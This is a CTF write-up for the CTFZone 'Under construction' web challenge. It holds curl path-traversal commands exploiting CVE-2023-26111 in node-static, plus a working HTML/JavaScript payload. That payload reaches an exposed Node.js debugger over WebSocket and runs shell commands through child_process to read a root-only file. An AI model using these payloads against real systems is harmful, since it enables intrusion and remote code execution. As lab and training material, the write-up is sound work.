







# Under construction
> We started the development of a new task but havent completed it yet.

> The debug version works on the site. We believe there is no way to get the flag now, but you can try!

## About the Challenge
We were given a source (You can download the source code [here](source.zip)) and also the website. Here is the preview of the website



There is a countdown and there is also another endpoint where we can input a URL and then The website will then navigate to the URL we have inputted



## How to Solve?
Now let's check the source code



There is a folder called `app`, and 2 js file: `app.js` and `worker.js`. Let's see the `package.json` first to see if there is an outdated dependencies

```json
{
  "dependencies": {
    "node-static": "0.7.11",
    "puppeteer": "20.7.3",
    "react-cyber-elements": "^1.0.2"
  }
}
```

Hmm, what is `node-static` package? lets see if this version is vulnerable or not using `security.snyk.io`



And voilà, we know this package was vulnerable to `CVE-2023-26111` (You can check this [gist.github.com](https://gist.github.com/lirantal/c80b28e7bee148dc287339cb483e42bc) to read the details). Let's check the source code again

```node
const hostname = '0.0.0.0';
const port = 3000;
var file = new static.Server('./app');
```

This program creates a node-static server to serve the `./app` folder. As a result, we can access folders or files that begin with the word `app` such as `../app.txt` or ``../app/index.html``. For example, due to the presence of a file named app.js in the server, we can send a request like the following using curl.

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app.js" --path-as-is -v
```



It will show us the source code of `app.js`. Not let's check the `Dockerfile`.

```bash
CMD ["bash","-c","node --inspect app.js  1>app-logs.out 2>app-logs.err"]
```

As you can see, the program ran using `--inspect` switch and the output will be put in a file called `app-logs.out` and if there is an error it will be put in a file called `app-logs.err`. In this case we can see the output of these 2 files by using this curl command

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.out" --path-as-is -v
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.err" --path-as-is -v
```





And then what? let's check `Dockerfile` again. The flag was located in `/root/flag.txt`

```
RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: /bin/cat /root/flag.txt" >> /etc/sudoers
```

So, we need to do Remote Code Execution and then run `sudo /bin/cat /root/flag.txt` to obtain the flag. And to do RCE, as I said before, the program ran using `--inspect` switch. And because of we know the URL of the debugger we can do RCE (You can read this [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) about RCE in Node.js Debugger).

And in the end, we create a HTML code to read the flag and then put the flag to `app-logs.out` file

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        let ws = new WebSocket("ws://127.0.0.1:9229/bff792d1-3b2c-4d2a-812a-d95a7f158f2c");
        ws.onmessage = function(data){new Image().src = '/message?' + data.data;}
        ws.onerror = function(data){new Image().src = '/error?' + data;}
        ws.onopen = () => {
            ws.send(
              JSON.stringify({
                id: 1,
                method: "Runtime.evaluate",
                params: {
                  expression:
                    'require(\'child_process\').execSync(\'sudo /bin/cat /root/flag.txt >> /home/ubuntu/app-logs.out\')',
                },
              })
            );
        };
    </script>
</body>
</html>
```

Host this HTML code somewhere, for example use VPS to host the code. And then put our website into `/browser` endpoint in the website. Wait for a while and you can obtain the flag

```
ctfzone{d3bug_m0d3_1s_c00l_f0r_CTF}
```